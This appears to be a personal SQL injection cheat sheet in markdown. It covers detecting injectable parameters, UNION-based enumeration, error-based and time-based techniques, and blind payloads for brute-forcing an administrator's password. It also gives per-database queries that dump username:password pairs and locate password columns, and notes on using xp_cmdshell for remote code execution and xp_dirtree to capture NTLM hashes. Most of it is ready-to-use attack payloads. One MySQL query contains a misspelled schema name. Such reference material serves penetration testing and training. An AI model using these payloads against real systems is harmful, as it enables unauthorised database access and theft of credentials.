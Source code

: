 # Entry point
if data is returned in the response, and it is unchanged after appending one of these payloads (or an error is returned) - the parameter might be vulnerable to SQLi.

Oracle / MSSQL / PostgreSQL / MySQL / SQLite
```
 --
; -- 
' --
'; -- 
" --
"; -- 
 /*
' /*
'; /* 
" /*
"; /* 
```
MySQL
```
 #
; # 
' #
'; # 
" #
"; # 
```
example query: SELECT role,fullname FROM users WHERE id='1' # '
# UNION attack
if data is returned in the response, the database can be enumerated using a union attack.
in this case, the first step is to figure out how many columns are returned by the query.
personally I like to supply an id or a username that does not exist so no row is returned,
and then unioning a row of my choice until data is returned by the application:
```
-1' UNION SELECT 1; # 
-1' UNION SELECT 1,2: # 
-1' UNION SELECT 1,2,3; # and so on ...
```
after some of the numbers we supplied are reflected in the response, we can replace them with
other builtin methods and attributes to further enumerate the database.

```diff
SELECT name,issue_date,valid_until FROM tickets WHERE ticket_id="
- 1" UNION SELECT 1,GROUP_CONCAT(table_name SEPARATOR "<br>") ,3 FROM information_schema.tables /*
"
```

### visible error
CAST does variable operations, can trigger error containing its output
```diff
SELECT * FROM users WHERE id='
-1'; 1=CAST((SELECT password FROM users LIMIT 1) AS int);--
'
```

### time delay
```
SELECT pg_sleep(10); -- PostgreSQL
```

### group_concat
allows concatenating columns with separators to fit in single column that might be unioned to original query
```
string_agg(username || ':' || password, '<br>') FROM users; -- PostgreSQL
GROUP_CONCAT(CONCAT(username, ':', password) SEPARATOR '<br>') FROM users; # MySQL
GROUP_CONCAT(username || ':' || password, '<br>') FROM users; -- SQLite
```

# Version enumeration
```
SELECT version() # PostgreSQL / MySQL / MariaDB
SELECT @@version -- MSSQL + # MySQL
SELECT sqlite_version() /* SQLite
SELECT banner FROM v$version -- Oracle
SELECT version FROM v$instance -- Oracle
```
# Blind
if data is not directly returned in the response, we can trigger conditional errors or time delays, using stacked queries, concatenated strings and union attacks:
```
' UNION SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE ' ' END FROM users WHERE username='administrator'-- -
' UNION SELECT CASE WHEN SUBSTR(password,§1§,1)='§char§' THEN TO_CHAR(1/0) ELSE ' ' END FROM users WHERE username='administrator'-- - cluster bomb with number list and bruteforcer
```

# Data exfiltration
some of the queries I like to run in order to enumerate the databse further are:

Oracle
```
SELECT DISTINCT owner FROM all_tables; -- list databases
SELECT table_name, column_name FROM all_tab_cols WHERE column_name LIKE '%ser%'; /* lists columns like User, username and user */
SELECT table_name, column_name FROM all_tab_cols WHERE column_name LIKE '%ass%'; -- same but for pass or Password
```
MSSQL
```
SELECT name FROM master.sys.databases;
SELECT t.name AS table_name, c.name AS column_name FROM sys.tables t JOIN sys.columns c ON t.object_id = c.object_id WHERE c.name LIKE '%ass%'; 
```
PostgreSQL
```
SELECT datname FROM pg_database;
SELECT table_name, column_name FROM information_schema.columns WHERE column_name LIKE '%ass%';
```
MySQL
```
SELECT table_name FROM information_shcema.tables WHERE table_schema NOT IN ('mysql','information_schema','performance_schema'); # list all non default table names
```
# Tricks
MSSQL can run system stored procedures such as xp_cmdshell which can be abused to move laterally.
xp_cmdshell -> direct RCE
xp_dirtree -> lists the contents of a folder. can be run against an attacker responder to get service user NTLM.
